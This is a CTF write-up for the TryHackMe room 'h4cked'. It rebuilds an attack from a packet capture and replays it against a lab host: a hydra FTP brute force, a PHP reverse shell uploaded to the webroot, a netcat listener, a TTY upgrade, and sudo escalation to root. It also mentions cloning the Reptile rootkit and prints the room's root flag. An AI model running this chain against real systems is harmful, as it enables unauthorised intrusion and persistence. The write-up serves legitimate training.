# 🧠 TryHackMe — _h4cked_

**Category:** Network Forensics → Web → Privilege Escalation → Rootkit  
**Difficulty:** Easy  
### Challange:
`https://tryhackme.com/room/h4cked`
**Scenario:**  
We are given a `.pcap` file containing captured network traffic from a compromised machine.  
Our goal is to **reconstruct the attack**, identify the attacker’s steps, and **replicate them** to recover the root flag.

---

# 1️⃣ Traffic Analysis (PCAP Investigation)

The challenge begins with a packet capture file.  
Opening it in **Wireshark**, we filter by FTP:

```
ftp
```



```
220 Hello FTP World!
USER jenny
331 Please specify the password.
PASS 123456
530 Login incorrect.
PASS computer
530 Login incorrect.
PASS 111111
530 Login incorrect.
PASS password123
230 Login successful.
```

### ✔ What did we learn?

| Question         | Answer          |
| ---------------- | --------------- |
| Targeted Service | **FTP**         |
| Brute-force tool | **Hydra**       |
| Username         | **jenny**       |
| Password         | **password123** |



---

# 2️⃣ Attacker After Login

After login, attacker runs:

```
PWD
```

FTP replies:

```
257 "/var/www/html" is the current directory
```

This tells us **the FTP server has write access to the web server directory** — critical misconfiguration.


---

# 3️⃣ Backdoor Upload

The attacker uploads:

```
shell.php
```

Then makes it executable:

```
SITE CHMOD 777 shell.php
```

This is a **PHP web shell** placed directly into `/var/www/html`.

Inside the shell file, we see a comment:

```php
// http://pentestmonkey.net/tools/php-reverse-shell
```

So it is a **PentestMonkey PHP Reverse Shell**.


---

# 4️⃣ Reverse Shell Obtained

Attacker visits:

```
http://TARGET/shell.php
```


Which sends a reverse shell to their machine.  
Once connected, they check:

```
whoami
```

Result:

```
www-data
```

Then they upgrade shell using:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This is a **TTY upgrade** to get interactive terminal.

---

# 5️⃣ Switching to User Jenny

Since attacker already knows Jenny’s password from FTP:

```
su jenny
Password: password123
```

Now running as **jenny**.


---

# 6️⃣ Privilege Escalation

They check sudo rights:

```
sudo -l
```

Output:

```
User jenny may run the following commands:
(ALL) ALL
```

This means **Jenny can run ANY command as root**.

So attacker executes:

```
sudo su
```

Boom 💥 — **root shell obtained**.


---

# 7️⃣ Rootkit Installation

The attacker clones:

```
git clone https://github.com/f0rb1dd3n/Reptile.git
```

This project is **Reptile Rootkit**.



A **rootkit** is:

> A stealthy persistent backdoor that hides files, processes, users, and gives attacker long-term control.

---

# 8️⃣ Replicating the Attack (Our Exploitation)
### Open Ports

```
21 FTP
22 SSH
80 HTTP
```

### Brute Force FTP

```
hydra -l jenny -P /usr/share/wordlists/rockyou.txt ftp://10.49.165.119
```

Result:

```
Password: 987654321
```


---
# 9️⃣ Upload Reverse Shell

```
ftp 10.49.165.119
login: jenny
password: 987654321
put rev.php
chmod 777 rev.php
```

Then:

```
nc -lnvp 4444
```

Open in browser:

```
http://10.49.165.119/rev.php
```

We get:

```
www-data shell
```

Upgrade shell:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


---

# 🔟 Privilege Escalation to Root

```
su jenny
password: 987654321
sudo su
```

Now we are root.



---
# 1️⃣1️⃣ Root Flag

Navigate:

```
cd /root/Reptile
cat flag.txt
```

### 🎯 ROOT FLAG

```
ebcefd66ca4b559d17b440b6e67fd0fd
```


---
# 🔥 Attack Chain Summary

```
PCAP → FTP brute force → Web shell → Reverse shell
→ TTY spawn → su jenny → sudo su → root
→ Reptile rootkit → Persistence
```

---

# 🛡 What Went Wrong (Security Lessons)

| Vulnerability        | Impact                   |
| -------------------- | ------------------------ |
| FTP exposed          | Allowed brute force      |
| Weak password        | Easily cracked           |
| FTP write to webroot | Allowed PHP shell upload |
| sudo ALL             | Allowed instant root     |
| No monitoring        | Rootkit went unnoticed   |

---
## 🧑‍💻 Author

Ghost- Cybersecurity Learner & CTF Player